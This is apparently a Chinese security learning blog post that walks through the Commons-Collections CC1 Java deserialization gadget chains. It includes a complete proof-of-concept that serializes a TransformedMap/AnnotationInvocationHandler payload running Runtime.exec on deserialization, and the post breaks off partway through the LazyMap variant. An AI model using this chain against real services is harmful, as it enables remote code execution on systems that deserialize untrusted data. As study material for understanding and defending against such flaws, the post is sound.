










上篇文章学习了URLDNS这条链，主要是HashMap和URL这两个类，接下来学习Common-Collections利⽤链，此篇文章记录学习CC1的学习过程。

## 简介

commons-collections是Apache软件基金会的项目，对Java标准的Collections API提供了很好的补充，在其基础上对常用的数据结构进行了封装、抽象和补充，目的在于提供可重用的、用来解决常见需求的代码及数据结构。
CC1两条利用链：

- **AnnotationInvocationHandler.readObject->TransformedMap.checkSetValue->ChainedTransformer->InvokerTransformer.transform->Runtime.exec**
- **AnnotationInvocationHandler.readObject->LazyMap.get->TransformedMap.checkSetValue->InvokerTransformer.transform->Runtime.exec**

CC1的测试环境需要在Java 8u71以前。在此改动后，AnnotationInvocationHandler的readObject不再直接使⽤反序列化得到的Map对象，⽽是新建了⼀个LinkedHashMap对象，并将原来的键值添加进去。所以，后续对Map的操作都是基于这个新的LinkedHashMap对象，⽽原来我们精⼼构造的Map不再执⾏set或put操作。

## 调试环境

JDK8u65:[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html) （8u71以下）
下载sun的源码：[http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/rev/41ab7149fea2](http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/rev/41ab7149fea2)
创建一个普通的maven项目，之后解压JDK 目录下的SRC文件，把下载的sun文件（/src/share/classes/sun）解压放到SRC文件下

配置IDEA File->Project Structure->SDKs->Sourcepath 加入src文件夹

pom文件加入commons-collections依赖 版本3.2.1

```xml
    <dependencies>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
    </dependencies>
```

maven加载的文件，直接download就可以看到.java源文件。

## 相关接口和类

### Transformer

Transformer是⼀个接⼝，它只有⼀个待实现的⽅法**transform(Object input)**：

```java
public interface Transformer {

    /**
     * Transforms the input object (leaving it unchanged) into some output object.
     *
     * @param input  the object to be transformed, should be left unchanged
     * @return a transformed object
     * @throws ClassCastException (runtime) if the input is the wrong class
     * @throws IllegalArgumentException (runtime) if the input is invalid
     * @throws FunctorException (runtime) if the transform cannot be completed
     */
    public Object transform(Object input);

}
```

### InvokerTransformer

InvokerTransformer是实现了Transformer接⼝和Serializable接口的⼀个类，**这个类可以用来执行任意方法，InvokerTransformer.transform()是CC1的关键点**。
实例化这个InvokerTransformer，需要传⼊三个参数，第⼀个参数是⽅法名，第⼆个参数是参数类型，第三个参数是传给这个函数的参数列表：

```java
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        super();
        iMethodName = methodName;
        iParamTypes = paramTypes;
        iArgs = args;
    }
```

InvokerTransformer实现Transformer接口的 **transform(Object input)**方法。反射来调用传进来的对象中的方法。而方法名、参数类型和参数列表都是可以在构造函数初始化时传进来的，因此都是可控的。

```java
public Object transform(Object input) {
        if (input == null) {
            return null;
        }
        try {
            Class cls = input.getClass();//获取类
            Method method = cls.getMethod(iMethodName, iParamTypes);//反射获取方法
            return method.invoke(input, iArgs);//调用方法
                
        } catch (NoSuchMethodException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' does not exist");
        } catch (IllegalAccessException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
        } catch (InvocationTargetException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' threw an exception", ex);
        }
    }
```

到这获取exec方法，执行命令都是没有问题的。

```java
//获取Runtime.class，获取exec方法，执行命令。
	Runtime r = Runtime.getRuntime();
    Class c = Runtime.class;
    Method execMethod = c.getMethod("exec", String.class);
    execMethod.invoke(r,"calc.exe");

//利用InvokerTransformer.transform执行命令。
   Runtime r = Runtime.getRuntime();
   new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc.exe"}).transform(r);
```


直接弹出计算器。只是这个只能在本地执行。要想远程调用的话，就得使构造函数中的几个参数和transform中的参数都是用户可控的才行。

### ConstantTransformer

ConstantTransformer是实现了Transformer和Serializable接口的⼀个类。

```java
public ConstantTransformer(Object constantToReturn) {
        super();
        iConstant = constantToReturn;
    }
    public Object transform(Object input) {
        return iConstant;
    }
```

构造函数是传一个对象进去，初始化iConstant，而transform则将这个iConstant对象返回。因此可将Runtime传进去，当调用transform时返回一个Runtime对象回来，要是能将它与InvokerTransformer组合起来或许就能有意想不到的效果。而ChainedTransformer刚好有这种功能。

### ChainedTransformer

ChainedTransformer也是实现了Transformer和Serializable接⼝的⼀个类，它的作⽤是将内部的多个Transformer串在⼀起。

```java
public ChainedTransformer(Transformer[] transformers) {
        super();
        iTransformers = transformers;
    }
    public Object transform(Object object) {
        for (int i = 0; i < iTransformers.length; i++) {
            object = iTransformers[i].transform(object);
        }
        return object;
    }
```

构造函数这里传的是一个Transformer数组，而transform方法则是遍历这个数组，取出数组里的Transformer对象并调用其transform方法，返回的对象又作为下一个Transformer的transform方法中的参数被调用。

## 第一条链

寻找链的思路：InvokerTransformer.transform()是执行命令的关键，找的思路就是找哪里调用了transform，对应的方法又在哪被调用，最后直至找到readObject里调用的方法。
AnnotationInvocationHandler.readObject()->TransformedMap.checkSetValue()->ChainedTransformer->InvokerTransformer->Runtime.exec


### TransformedMap

TransformedMap是实现了Serializable的类，构造函数接收map，key，value。key，value都是Transformer。

```java
protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        super(map);
        this.keyTransformer = keyTransformer;
        this.valueTransformer = valueTransformer;
    }
```

TransformedMap⽤于对Java标准数据结构Map做⼀个修饰，被修饰过的Map在添加新的元素时，将可以执⾏⼀个回调。通过下⾯这⾏代码对传入的map进⾏修饰，修饰后的Map：

```java
//静态方法，直接可以调用。    
		public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        return new TransformedMap(map, keyTransformer, valueTransformer);
    }
```

checkSetValued调用了transform，valueTransformer是我们传入的Transformer。

```java
protected Object checkSetValue(Object value) {
        return valueTransformer.transform(value);
    }
```

继续找调用了checkSetValued的方法，把decorate修饰的TransformedMap对象传进去。找到了AbstractInputCheckedMapDecorator内部类MapEntry的setValue方法调用了checkSetValued。

```java
static class MapEntry extends AbstractMapEntryDecorator {

        /** The parent map */
        private final AbstractInputCheckedMapDecorator parent;

        protected MapEntry(Map.Entry entry, AbstractInputCheckedMapDecorator parent) {
            super(entry);
            this.parent = parent;
        }

        public Object setValue(Object value) {
            value = parent.checkSetValue(value);
            return entry.setValue(value);
        }
    }
```

**调用测试**

```java
Runtime r = Runtime.getRuntime();
        InvokerTransformer invokerTransformer = (InvokerTransformer) new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"});

        HashMap<Object,Object> map = new HashMap<>();
        map.put("key","value");
        Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,invokerTransformer);
				//TransformedMap修饰的对象，这里遍历了它的所有元素，并依次设置值
        for(Map.Entry entry:transformedMap.entrySet()){
            entry.setValue(r); //调用setValue
        }
//弹计算器
```

继续在找调用setValue的地方。最好是readObject直接调用。AnnotationInvocationHandler的readObject刚好符合条件。

### AnnotationInvocationHandler

这个类实现Serializable接口，不能直接调用这个类，需要通过反射的的方式加载。这个类的构造方法，接收type和Map

```java
AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
        Class<?>[] superInterfaces = type.getInterfaces();
        if (!type.isAnnotation() ||
            superInterfaces.length != 1 ||
            superInterfaces[0] != java.lang.annotation.Annotation.class)
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
        this.type = type;
        this.memberValues = memberValues;
    }
```

readObject方法的关键是Map.Entry<String, Object> memberValue : memberValues.entrySet() 和 memberValue.setValue(...) 。memberValues就是反序列化后得到的Map，也是经过了TransformedMap修饰的对象，这里遍历了它的所有元素，并依次设置值。在调用setValue设置值的时候就会触发TransformedMap里注册的Transform，进而执行我们为其精心设计的任意代码。

```java
private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        s.defaultReadObject();

        // Check to make sure that types have not evolved incompatibly

        AnnotationType annotationType = null;
        try {
            annotationType = AnnotationType.getInstance(type);
        } catch(IllegalArgumentException e) {
            // Class is no longer an annotation type; time to punch out
            throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map<String, Class<?>> memberTypes = annotationType.memberTypes();

        // If there are annotation members without values, that
        // situation is handled by the invoke method.
        for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
            String name = memberValue.getKey();
            Class<?> memberType = memberTypes.get(name);
            if (memberType != null) {  // i.e. member still exists
                Object value = memberValue.getValue();
                if (!(memberType.isInstance(value) ||
                      value instanceof ExceptionProxy)) {
                    memberValue.setValue(
                        new AnnotationTypeMismatchExceptionProxy(
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name)));
                }
            }
        }
    }
```

以上就是第一条完整的链。整理一下思路：

```java
1、transform数组里面含有4个实现了Transformer接口的对象，这四个对象都重写了transform()方法
2、ChianedTransformer里面装了4个transform,ChianedTransformer也实现了Transformer接口，同样重写了transform()方法
3、TransoformedMap绑定了ChiandTransformer，给予map数据转化链，当map里的数据进行修改时，需经过ChiandTransformer转换链
4、利用TransoformedMap的setValue修改map数据，触发ChiandTransformer的transform()方法
5、ChianedTransformer的transform是一个循环调用该类里面的transformer的transform方法
loop 1：第一次循环调用ConstantTransformer("java.Runtime")对象的transformer方法，调用参数为"test"(正常要修改的值)，返回了java.Runtime作为下一次循环的object参数
loop 2：第二次循环调用InvokerTransformer对象的transformer，参数为("java.Runtime")，包装Method对象"getMethod"方法，invoke方法获得对象所声明方法"getRuntime"，利用反射，返回一个Rumtime.getRuntime()方法
loop 3：第三次循环调用InvokerTransformer对象的transformer，参数为("Rumtime.getRuntime()")，包装Method对象"invoke"方法，利用反射，返回一个Rumtime.getRuntime()实例
loop 4：第四次循环调用InvokerTransformer对象的transformer，参数为一个Runtime的对象实例，包装Method对象"exe
```

### 编写POC

首先明确要实现的目标是：

```java
Runtime.getRuntime().exec("calc.exe");
```

因此首先要获得Runtime

```java
Class c = Runtime.class;
```

ConstantTransformer可以传一个Runtime类进去，当被遍历时调用transform方法可以返回一个Runtime类，正好作为下一个Transformer的transform方法中的参数。因此Transformer数组第一个Transformer如下：

```java
new Transformer[]{
  new ConstantTransformer(Runtime.class)
}
```

为什么不用 Runtime.getRuntime() 换成了 Runtime.class ？
前者是一个java.lang.Runtime 对象，后者是一个 java.lang.Class 对象。Class类有实现Serializable接口，所以可以被序列化。
下一步需要调用getRuntime，它是Runtime里面的方法，前面已经传了Runtime.class，要获取该方法显然只能通过反射，而InvokerTransformer中的transform方法刚好提供了这个功能。
正常反射使用方法

```java
Method f = Runtime.class.getMethod("getRuntime"); 
Runtime r = (Runtime) f.invoke(null);  //获取runtime对象
r.exec("calc.exe"); //调用exec
```

现在已经有了Runtime类，那么考虑传一个getMethod进去，然后通过反射让Runtime类调用getMethod方法，参数即为getRuntime，因此第二个Transformer如下：

```java
new Transformer[]{
  new ConstantTransformer(Runtime.class), //返回Runtime类 
  
  new InvokerTransformer("getMethod",			//反射调用getMethod方法，然后getMethod方法再反射调用getRuntime方法，返回Runtime.getRuntime()方法
    new Class[]{String.class, class[].class},
    new Object[]{"getRuntime", new Class[0]})
}
```

然后需要调用invoke方法，因此传invoke进去，第三个Transformer如下：

```java
new Transformer[]{
  new ConstantTransformer(Runtime.class), 
  
  new InvokerTransformer("getMethod",
    new Class[]{String.class, class[].class},
    new Object[]{"getRuntime", new Class[0]}),
  
  new InvokerTransformer("invoke", //调用invoke方法
    new Class[]{Object.class, Object[].class},
    new Object[]{null, new Object[0]})
}
```

最后调用exec方法，因此传exec进去，参数是命令，第四个Transformer如下：

```java
new Transformer[]{
  new ConstantTransformer(Runtime.class), 
  
  new InvokerTransformer("getMethod",
    new Class[]{String.class, class[].class},
    new Object[]{"getRuntime", new Class[0]}),
  
  new InvokerTransformer("invoke",
    new Class[]{Object.class, Object[].class},
    new Object[]{null, new Object[0]}),
  
  new InvokerTransformer("exec", //调用exec方法
    new Class[]{String.class},
    new Object[]{"calc"})
};
```

把Transformer[]传给ChainedTransformer

```java
Transformer transformerChain = new ChainedTransformer(transformers);
```

然后把transformerChain传给TransformedMap.decorate，造出一个TransformedMap对象存在tmap中

```java
Map map = new HashMap();
map.put("value", "Roderick");
Map tmap = TransformedMap.decorate(map, null, transformerChain);
```

反射获取AnnotationInvocationHandler，获取实例传入tamp，反序列化的过程就会调用tamp.setValue

```java
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
declaredConstructor.setAccessible(true);
Object o = declaredConstructor.newInstance(Retention.class, tmap);
```

综上，组合起来完整的poc

```java
package cc1;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.io.*;
import java.lang.annotation.Retention;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class test {
    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[]{
                //传入Runtime类
                new ConstantTransformer(Runtime.class),
                //反射调用getMethod方法，然后getMethod方法再反射调用getRuntime方法，返回Runtime.getRuntime()方法
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                //反射调用invoke方法，然后反射执行Runtime.getRuntime()方法，返回Runtime实例化对象
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                //反射调用exec方法
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{"calc.exe"})
        };
        //把transformers的4个Transformer执行
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map map = new HashMap();
        map.put("value", "uf9n1x");
        Map tmap = TransformedMap.decorate(map, null, transformerChain);
        //反射获取AnnotationInvocationHandler的对象传入tmap
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        declaredConstructor.setAccessible(true);
        Object o = declaredConstructor.newInstance(Retention.class, tmap);


        //序列化写文件
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("outCC1.bin"));
        oos.writeObject(o);

        //反序列化触发payload
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("outCC1.bin"));
        ois.readObject();
    }}
```



### 小结

- 先总结一下我们的利用链

```java
利用链：
InvokerTransformer#transform
    TransformedMap#checkSetValue
        AbstractInputCheckedMapDecorator#setValue
            AnnotationInvocationHandler#readObject
使用到的工具类辅助利用链：
ConstantTransformer
ChainedTransformer
HashMap
```

这里非常建议大家在跟完一整个链子之后，写一个流程图，让自己明确一下思路，这个流程图一定是要自己写。

别的师傅的流程图


## 第二条链

AnnotationInvocationHandler.readObject()->LazyMap.get()->ChainedTransformer->InvokerTransformer.transform->Runtime.exec
这条链就是ysoserial里的链，和上一条的差别不大，上条用了TransformedMap，这一条用LazyMap

### LazyMap

LazyMap和TransformedMap类似，都来自于Common-Collections库，并继承AbstractMapDecorator。

```java
//获取 LazyMap 对象
		public static Map decorate(Map map, Factory factory) {
        return new LazyMap(map, factory);
    }
```

LazyMap的漏洞触发点和TransformedMap唯一的差别是，TransformedMap是在写入元素的时候执行transform，而LazyMap是在其get方法中执行的 factory.transform。

```java
public Object get(Object key) {
        // create value for key if key is not currently in the map
        if (map.containsKey(key) == false) {
            Object value = factory.transform(key);
            map.put(key, value);
            return value;
        }
        return map.get(key);
    }
```

在get找不到值的时候，它会调用 factory.transform 方法去获取一个值，AnnotationInvocationHandler 的readObject方法中并没有直接调用到Map的get方法。在ysoserial中，AnnotationInvocationHandler类的invoke方法有调用到get方法

```java
public Object invoke(Object proxy, Method method, Object[] args) {
        String member = method.getName();
        Class<?>[] paramTypes = method.getParameterTypes();

        // Handle Object and Annotation methods
        if (member.equals("equals") && paramTypes.length == 1 &&
            paramTypes[0] == Object.class)
            return equalsImpl(args[0]);
        if (paramTypes.length != 0)
            throw new AssertionError("Too many parameters for an annotation method");

        switch(member) {
        case "toString":
            return toStringImpl();
        case "hashCode":
            return hashCodeImpl();
        case "annotationType":
            return type;
        }
				//get方法
        // Handle annotation member accessors
        Object result = memberValues.get(member);

        if (result == null)
            throw new IncompleteAnnotationException(type, member);

        if (result instanceof ExceptionProxy)
            throw ((ExceptionProxy) result).generateException();

        if (result.getClass().isArray() && Array.getLength(result) != 0)
            result = cloneArray(result);

        return result;
    }
```

调用 AnnotationInvocationHandler.invoke，ysoserial的作者想到的是使用**Java动态代理**java.reflect.Proxy，第一个参数是ClassLoader，我们用默认的即可；第二个参数是我们需要代理的对象集合；第三个参数是一个实现了InvocationHandler接口的对象，里面包含了具体执行逻辑。具体可以学习一下动态代理。

```java
public static Object newProxyInstance(ClassLoader loader,
                                          Class<?>[] interfaces,
                                          InvocationHandler h)
        throws IllegalArgumentException
    {
        Objects.requireNonNull(h);

        final Class<?>[] intfs = interfaces.clone();
        final SecurityManager sm = System.getSecurityManager();
        if (sm != null) {
            checkProxyAccess(Reflection.getCallerClass(), loader, intfs);
        }
```

### 编写POC

在TransformedMap POC的基础上进行修改，首先使用LazyMap替换TransformedMap

```java
Map tmap = LazyMap.decorate(map, transformerChain);
```

